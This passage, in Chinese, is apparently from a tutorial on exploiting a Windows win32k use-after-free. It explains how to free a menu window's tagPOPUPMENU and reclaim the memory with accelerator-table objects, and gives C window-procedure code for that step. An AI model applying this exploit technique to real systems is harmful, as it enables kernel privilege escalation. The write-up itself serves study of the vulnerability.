有了 tagMENUWND 对象，接下来就需要在 0x1F0 中想办法修改 tagMENUWND 对象的 tagPOPMENU 中偏移 0xC 的 spwndNextPopup。因为，在函数 xxxMNHideNextHierarchy 中，会对这个成员判断其值是否为 0，如果不为 0，才会将其作为第一个参数传给 xxxSendMessage 函数，而上面所创建的类名为 "#32768" 的 tagMENUWND 对象的 tagPOPMENU 中的 spwndNextPopup 为 0。

想要将其修改为非 0 值，此处需要使用到 CreateAcceleratorTable 来创建加速表对象，该函数的定义如下：

```
HACCEL CreateAcceleratorTable(LPACCEL lpaccl, 
                              int cEntries);

```

其中第二个参数指定了要创建加速表对象的个数，这里需要指定为 0x5，这样可以保证创建的空间足够容纳 tagMENUWND 结构体。因此，消息 0x1EB 的执行内容如下：

*   先销毁掉 "#32768" 窗口对象，这样会释放掉 tagPOPUPMENU 的空间
    
*   申请一些的加速表对象，这些加速表对象就会占用刚刚释放 "32768" 窗口对象的 tagPOPUPMENU 空间，这样，就可以修改 tagPOPUPMENU 中的 spwndNextPopup  
    

这样就可以实现对 xxxMNHideNextHierarchy 函数的第一个参数实现修改。

菜单窗口的处理例程，则应该如下所示：  

```
LRESULT CALLBACK MenuWndProc_2015_2546(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    LPACCEL lpAccel = NULL;
 
    if (uMsg == 0x1EB)
    {
        return (LONG)g_hWnd;
    }
    else if (uMsg == 0x1F0)
    {
        if (g_hWnd != NULL)
        {
            // #32768窗口进行销毁,tagPopupMenu被释放
            if (!DestroyWindow(g_hWnd))
            {
                ShowError("DestroyWindow", GetLastError());
            }
 
            // 使用加速表对象占用窗口对象的空间
            for (DWORD i = 0; i < ACCELERATOR_NUMBER; i++)
            {
                lpAccel = (LPACCEL)malloc(sizeof(ACCEL) * 0x5);
                if (lpAccel) CreateAcceleratorTable(lpAccel, 0x5);
            }
        }
         
        return 0;
    }
    else if (uMsg == 0x1E5)
    {
        return 0x10;
    }
 
    return CallWindowProcA(g_lpPrevWndFunc, hWnd, uMsg, wParam, lParam);
}

```
